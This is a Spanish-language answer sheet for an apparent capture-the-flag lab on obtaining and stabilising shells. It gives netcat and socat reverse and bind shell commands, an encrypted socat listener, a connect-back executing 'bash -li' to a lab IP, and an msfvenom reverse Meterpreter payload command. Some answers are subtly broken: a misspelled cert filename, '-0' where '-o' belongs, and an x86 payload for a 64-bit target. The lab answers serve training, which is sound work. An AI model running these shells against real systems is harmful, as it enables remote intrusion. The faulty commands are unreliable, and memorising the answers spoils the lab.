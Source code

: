 ## ¿Qué es una shell?

¿Qué tipo de shell se conecta de nuevo a un puerto de escucha en su computadora, Reverse (R) o Bind (B)?
 
    R

Ha inyectado código de shell malicioso en un sitio web. ¿Es probable que el caparazón que recibe sea interactivo? (S o N)
 
    N

Al usar un shell de enlace, ¿ejecutaría un oyente en el atacante (A) o el objetivo (T)?
 
    T

## Netcat

¿Qué opción le dice a netcat que escuche ?
 
    -l

¿Cómo se conectaría a un shell de enlace en la dirección IP: 10.10.10.11 con el puerto 8080?

    nc 10.10.10.11 8080

## Netcat Shell Stabilisation
¿Cómo cambiaría el tamaño de su terminal para tener 238 columnas?
 
    stty cols 238

¿Cuál es la sintaxis para configurar un servidor web Python3 en el puerto 80?
 
    sudo python3 -m http.server 80

## Socat

¿Cómo conseguiremos que socat escuche en el puerto TCP 8080?

    TCP-L:8080

## Socat Encrypted Shells 

¿Cuál es la sintaxis para configurar un OPENSSL-LISTENER usando la técnica tty de la tarea anterior? Utilice el puerto 
53 y un archivo PEM llamado "encrypt.pem"
 
    socat OPENSSL-LISTENER:53,cert=emcrypt.pem,verify=0 FILE:`tty`,raw,echo=0

Si su IP es 10.10.10.5, ¿qué sintaxis usaría para conectarse de nuevo a este oyente?

    socat TCP:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane

## Common Shell Payloads  

¿Qué comando se puede usar para crear una tubería con nombre en Linux?

    mkfifo

## Msfvenom

¿Qué símbolo se usa para mostrar que un caparazón no tiene escenario?
 
    _

¿Qué comando usaría para generar un shell inverso meterpreter por etapas para un destino Linux de 64 bits , asumiendo 
que su propia IP era 10.10.10.5 y estaba escuchando en el puerto 443? El formato del shell eself y el nombre del archivo
de salida debe sershell

    msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -0 shell LHOST=10.10.10.5 LPORT=443

## Metasploit multi / handler

¿Qué comando se puede usar para iniciar un oyente en segundo plano?
 
    exploit -j

Si acabáramos de recibir nuestro décimo shell inverso en la sesión actual de Metasploit, ¿cuál sería el comando
utilizado para ponerlo en primer plano?

    sessions 10


